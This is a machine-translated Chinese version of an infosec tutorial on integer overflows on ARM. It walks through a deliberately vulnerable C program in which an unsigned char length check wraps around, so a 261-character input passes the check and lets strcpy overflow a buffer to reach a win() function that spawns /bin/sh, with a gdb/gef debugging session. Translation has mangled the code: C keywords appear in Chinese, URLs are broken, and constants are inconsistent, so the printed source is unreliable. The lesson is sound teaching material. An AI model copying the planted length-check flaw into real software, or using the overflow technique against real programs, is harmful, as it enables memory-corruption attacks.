# ARM 中的整数溢出

> 原文：<https://infosecwriteups.com/integer-overflows-in-arm-b4e650d072d4?source=collection_archive---------0----------------------->

你好黑客们，

今天我们将探讨 ARM 中的整数溢出。相信我，这不会像 ROP 链一样长。在深入这个主题之前，请确保您对利用 ARM 中简单的基于堆栈的溢出有一些基础知识。如果你对 ARM ROP 链感兴趣，我建议你看看这篇文章。

> [https://medium.com/@ad2001/rop-chains-on-arm-3f087a95381e](https://medium.com/@ad2001/rop-chains-on-arm-3f087a95381e)

废话说够了，让我们进入正题。

# **整数溢出简介**

那么什么是整数溢出呢？？

我们熟悉溢出，但是什么是整数溢出呢？有什么想法吗？？

简单地说，这是一种算术溢出，当整数运算的结果不适合分配的内存空间时就会发生。整数溢出本身不会引起太多关注，但它会导致其他漏洞，如缓冲区溢出，这会导致严重的安全问题。我认为这是足够的介绍，让我们转到实际的东西

如果您想了解更多关于此漏洞及其影响的信息。浏览这些链接

> [https://www . acune tix . com/blog/we B- security-zone/what-is-integer-overflow/](https://www.acunetix.com/blog/web-security-zone/what-is-integer-overflow/)
> 
> [https://www . secure coding . com/blog/integer-overflow-attack-and-prevention/](https://www.securecoding.com/blog/integer-overflow-attack-and-prevention/)

为了深入理解这个漏洞，我们需要用 c 数据类型来刷新我们的记忆。所以让我们快速进入这个话题。



[https://silly codes . com/different-data types-in-c-with-format/](https://sillycodes.com/different-datatypes-in-c-with-format/)

现在看一下范围列。如果您不知道该列描述的是什么，它显示了可以包含在该数据类型中的值的范围。

**有符号类型**可以包含正值和负值，但**无符号类型**只能包含正值。

举个例子，

如果你看一下**无符号短整型**，它只能保存正值，范围是 0 到 65535。所以它能容纳的最小值是 0，最大值是 65535。

那么当我们增加一个大于 65535 的值时，你认为会发生什么？

让我们先看一个最大范围值的例子。



分析这个程序，我们可以看到这个变量是一个短整型变量，它的值是 65535，这是一个短整型变量所能容纳的最大值。正如所料，程序的输出是 65535。

现在让我们给这个值加 1，结果是 65536，这个值在短整型的范围之外。



哇！！刚刚发生了什么？我们知道变量的值是 65536，但是程序的结果显示为零

如果你再加一个，就会得到一个。



这里到底发生了什么？

为了更好地理解这个概念，我们可以使用计算器，所以打开你选择的计算器，我将使用我的 windows 计算器。

无符号短整型的大小是 2 字节，准确的说是 16 位。我们的短整型的最大范围是 65535。如果您在计算器的十进制字段中键入该值，它将是 1111 1111 1111 1111 1111，这是 16 位的二进制数。



如果我们增加一个，会发生什么？让我们试试那个



当然，这个值将是 65536，因为这是我们的计算器。但是如果我们用一个无符号的短整型把它编译成一个 c 程序，它就会是零。

如果你仔细观察我突出显示的二进制数，右边的 16 位都是零。并且在二进制字段中显示了额外的 4 位。因此，值 0001 0000 0000 0000 0000 用于表示值 65536，其大小不再是 2 字节(16 位)。如果这是一个 c 程序，就像之前的无符号短整型一样，那么右边的 16 位将用于表示值，结果将是零，因为右边的 16 位二进制数表示零(十进制数也是零)。

我们给它加一个，看看会发生什么。



该值变为 65537。但如果仔细观察二进制字段右侧的后 16 位，它显示为 0000 0000 0000 0001(忽略前 4 位)，表示十进制的 1。这与我们在程序中给 65535 加 2 时得到的值相同。

简单总结一下，当我们输入一个大于 65535 的值(这是无符号 short int 的最大范围，大小为 2 字节)时，它将溢出，就像我们在计算器的二进制字段中看到的那样，并绕回零(从右数的最后 16 位)。结果，该值变为零。

现在让我们来看一个剥削的程序。

# 剥削

请查看下面这个易受攻击的程序。

> # include <stdio.h># include<string . h>
> # include<stdlib . h></stdio.h>
> 
> void check(char * password)；
> void win()
> {
> printf("恭喜你赢了你得到了一个贝壳:)\ n \ n ")；
> 系统("/bin/sh ")；
> }
> 
> int main(int argc，char* argv[]) {
> 
> 如果(argc！=2) {
> printf("给我一个参数\ n ")；
> 退出(0)；
> 
> }
> 
> check(argv[1])；
> 返回 0；
> 
> }
> 
> void check(char* password) {
> 
> printf(" Welcome…尝试获取 shell \ n ")；
> 字符缓冲区【10】；
> int user _ win = 0；
> 无符号字符长度= strlen(密码)；//漏洞
> printf("您输入的长度是:%d \n "，Length)；
> 如果(长度> = 4 & &长度< = 8)
> 
> {
> strcpy(缓冲区，密码)；
> if(user _ win = = 42424242){
> printf(" You won \ n ")；
> win()；
> }else{
> printf("你输了\ n ")；
> }
> }
> else {
> printf("保留 4 和 8 之间的数据\ n ")；
> }
> }

我用的是 Azeria labs 的仿真 ARM v6I。你可以从 azerialabs.com 下载这个虚拟机。

> gcc 整数溢出

现在让我们检查一下代码，以便有所了解。源代码中有三个函数。“ *main* 函数是程序开始的地方，我们的程序接受一个命令行输入。

*检查*有 3 个变量。

> char 缓冲器[10]；
> int user _ win = 0；
> 无符号字符长度= strlen(密码)；

缓冲区最多可以接受 10 个字符，user_win 变量的默认值为 0，最后，变量 *"length"* 的类型为 unsigned char，它包含我们的命令行输入的长度。

还有一个名为 win()的函数，它在被调用时为我们提供了一个 shell，但只有当 user_win 的值为 42424242 时才会被调用。

> void win()
> {
> printf("恭喜你赢了你得到了一个 shell:)\ n \ n ")；
> 系统("/bin/sh ")；
> }

strcpy 函数只在输入长度在 4 到 8 个字符之间时将值复制到缓冲区。

> if(长度> = 4 &&长度<= 8)
> 
> {
> strcpy(缓冲区，密码)；
> if(user _ win = = 0x 42424242){
> printf(" You won \ n ")；
> win()；
> }else{
> printf("你输了\ n ")；
> }
> }
> else {
> printf("保留 4 和 8 之间的数据\ n ")；
> }

现在，我们的目标是什么？？

是的……正如你已经猜到的，我们需要调用 win 函数，这样我们就可以得到 shell 了。为此，我们需要将 user_win 的值更改为 0x 42424242(“BBBB”)。

但是我们怎么做呢？

您可能会想到使缓冲区溢出，但是要使缓冲区溢出，我们需要使用 strcpy()函数。由于 if 条件，在这种情况下不能直接利用 strcpy()函数。让我们看看这个。



它显示了我们输入的长度。如您所见，在这种情况下，233 大于 4，因此，程序显示消息*“保持数据在 4 和 8 之间”*并退出

如果您包含 4 到 8 个字符的输入，那么程序工作。它将传递 if 条件，并使用 strcpy()函数将输入复制到缓冲区。



如果你现在看，程序会说“*你输了*”。如果你不把 user_win 变量改为 0x42424242，程序会一直显示这条消息。

那么我们将如何利用这一点呢？

如果你看一下**长度变量**，你会发现一些奇怪的东西。它使用一个**无符号字符**来存储我们输入的长度。strlen()获取输入的长度，并将其存储到无符号字符变量“length”中。然后，这个变量用于验证是否发生了溢出

现在，看看上面的范围图。无符号字符的范围是 0 到 255。我们可以使用下面的 c 程序来确认这一点。



再加一个吧。



嘣！！！现在是零。发生这种情况是因为值溢出并被包装(如上所述)

注意:你可能会想为什么我要用一个无符号字符来存储输入的长度，这是为了解释的简单。

所以我们需要将这个漏洞链接到，以便溢出缓冲区，并将 user_win 变量的值更改为 0x42424242，以获得 shell。

让我们开始吧

首先，我们需要输入 255 个以上的“A ”,这样存储在无符号字符“length”中的输入长度将会返回到零。让我们试试那个

首先，我们需要输入 255 个以上的“A ”,这样存储在无符号字符“length”中的输入长度将会返回到零。让我们试试，为此，我将使用 python



啊哈…正如程序所显示的，输入的长度现在为零。我们在这里提供的输入字符数是 256 个“A”。因为这超出了无符号字符的范围(最大范围:255 ),所以它将返回到零。

这将有助于通过我们的 if 条件。为了绕过“如果条件”,我们需要输入介于 4 和 8 之间的值。所以让我们在 256 A(261 A)的基础上再加 5 个字符。



现在我们的长度是 5，我们也绕过了 if 条件。似乎我们已经触发 strcpy 将 261 个字符复制到大小为 10 字节的缓冲区，并溢出缓冲区。

让我们用 gef 来证实这一点。

> pi @ raspberrypi:~/ASM/integer overflow $ gdb。/integer overflow
> GNU gdb(Raspbian 7 . 7 . 1+dfsg-5+rpi 1)7 . 7 . 1
> Copyright 2014 Free Software Foundation，Inc .
> License GPLv3+:GNU GPL version 3 或更高版本<[http://gnu.org/licenses/gpl.html](http://gnu.org/licenses/gpl.html)>
> 这是自由软件:你可以自由更改和重新发布它。
> 在法律允许的范围内，不提供任何担保。键入“显示复印”
> 和“显示保修”了解详情。
> 这个 GDB 被配置为“arm-linux-gnueabihf”。
> 输入“显示配置”了解配置详情。
> 关于 bug 报告的说明，请参见:
> <[http://www.gnu.org/software/gdb/bugs/](http://www.gnu.org/software/gdb/bugs/)>。
> 在
> <[http://www.gnu.org/software/gdb/documentation/](http://www.gnu.org/software/gdb/documentation/)>找到 GDB 手册和其他在线文档资源。如需帮助，请键入“help”。
> 键入“apropos word”以搜索与“word”相关的命令……
> [*]无调试会话活动
> GEF for linux 就绪，键入“GEF”以启动，键入“gef config”以配置
> 56 个使用 Python 引擎 2.7 为 GDB 7.7.1 加载的命令
> [*] 4 个命令无法加载，运行“gef missing”以了解原因。从…读取符号。/integeroverflow…(未找到调试符号)…完成。
> GEF>r $(python-c ' print " A " * 261 ')



pc 也会被覆盖，这就是为什么我们以 SIGSEGV 结束。

现在我们需要找到 user_win 变量的位置，这样我们就可以用“BBBB”(42424242)覆盖 user_win 的值。

为此，再次将文件加载到 gdb 中，并使用 *disass* 命令反汇编 check 函数。

> 拆卸检查



如果您仔细观察此时的反汇编，我们可以引用“user_win”变量。

看看我重点提到的 *CMP* ，它和我们在源代码中看到的“if 条件”是一样的。试着在那里放一个断点，用 261 A 作为输入运行 gdb。

> gef> b *0x00010600
> 断点 3 在 0x 10600
> GEF>r $(python-c ' print " A " * 261 ')
> 启动程序:/home/pi/ASM/integer overflow/integer overflow $(python-c ' print " A " * 261 ')
> 欢迎…尝试获取一个 shell
> 输入的长度是:5
> 
> check()中的断点 3，0x00010600

